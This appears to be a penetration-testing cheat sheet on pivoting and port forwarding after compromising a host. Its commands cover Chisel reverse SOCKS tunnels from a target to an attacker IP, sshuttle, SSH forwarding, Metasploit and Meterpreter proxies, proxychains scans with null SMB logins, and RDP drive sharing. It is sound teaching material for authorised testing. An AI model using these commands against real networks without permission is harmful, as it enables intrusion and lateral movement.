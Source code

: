 # Pivoting and Portforwarding

## Chisel

### Install

```bash
# Clone Repository
git clone 'https://github.com/jpillora/chisel.git'

# Build Binary
go build

# Binary is now built and ready to be transfered over to target system.
```

### Reverse SOCKS proxy

```bash
# Attacking Machine
./chisel server -p <Port> --reverse &
./chisel server -p 1337 --reverse &

# On Target Machine
./chisel client <Attacking-IP>:<Port> R:socks &
./chisel client 10.50.46.8:1337 R:socks &

# Then use Proxychains to scan internal networks from the compromised host.
```

## Shuttle

```bash
# Authenticate with password
sshuttle -r <User>@<Target-IP> <Target-Subnet> -x <Target-IP>
sshuttle -r user@172.16.0.5 172.16.0.0/24 -x 172.16.0.5

# Authenticate with key.
sshuttle -r <User>@<IP> --ssh-cmd "<Command>" <Target Subnet> -x <Exclude IP>
sshuttle -r root@10.200.48.200 --ssh-cmd "ssh -i id_rsa" 10.200.48.0/24 -x 10.200.48.200
```

## SSH

```bash
# Forward RDP from internal host to Attacking Machine on port 1337.
ssh -L <LocalHost>:<Port>:<IP-To-Forward-From>:<Port> <User>@<IP>
ssh -L 127.0.0.1:1337:10.200.48.150:3389 root@10.200.48.200 -i id_rsa

# Forward remote port 80 to local port 80.
ssh atena@10.10.72.69 -L 80:127.0.0.1:80
ssh <User>@<IP> -L <Local-Port>127.0.0.1<Remote-Port>

# Dynamic SSH Port Forwarding
ssh -i <id_rsa> <User>@<IP> -D <Proxychains-Port>
ssh -i id_rsa errorcauser@10.10.254.201 -D 1080
```

## Metasploit with Proxychains

Change last line in `/etc/proxychains4.conf` to the following value: `socks5 127.0.0.1 1080`

Then use the following Metasploit module:

```bash
use auxiliary/server/socks_proxy
```

Set module options to the following (Default):

```c
Module options (auxiliary/server/socks_proxy):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        Proxy password for SOCKS5 listener
   SRVHOST   0.0.0.0          yes       The address to listen on
   SRVPORT   1080             yes       The port to listen on
   USERNAME                   no        Proxy username for SOCKS5 listener
   VERSION   5                yes       The SOCKS version to use (Accepted: 4a, 5)
```

We can then force applications to use proxychains by initiating commands with the command `proxychains` first.

```bash
proxychains nmap <IP> -sT -p 1-10000 -sV -v
proxychains crackmapexec smb 10.10.10.100.5 -u '' -p ''
proxychains ssh <user>@<IP>
proxychains telnet <IP>
```

### Double Pivot

```bash
# /etc/proxychains.conf
# Ensure dynamic_chain is uncommented

dynamic_chain
proxy_dns 
tcp_read_time_out 15000
tcp_connect_time_out 8000
socks5  127.0.0.1 1080  # First Pivot
socks5  127.0.0.1 1081  # Second Pivot
```

## Port Forward

Meterpreter can be used to portforward for access to file shares and web servers.

```bash
portfwd add -l <LocalPort> -p <RemotePort> -r <TargetIP>
portfwd add -l 3333 -p 3389 -r 10.10.10.5
```

Essentially as per the example command above we could connect to RDP on our local port in order to hit the remote port.

```bash
rdesktop 127.0.0.1:3333
```

## xFreeRDP

Whilst not a direct pivoting technique, using `xFreeRDP` to share the hosts file system can give the attacker an easy route for moving files across systems to further assist with pivoting

```bash
xfreerdp /v:IP /u:USERNAME /p:PASSWORD +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share
```

![](<../.gitbook/assets/image (1861).png>)

## Tools

Chisel: [https://github.com/jpillora/chisel/releases/tag/v1.7.6](https://github.com/jpillora/chisel/releases/tag/v1.7.6)

## References

{% embed url="https://pentest.blog/explore-hidden-networks-with-double-pivoting/" %}
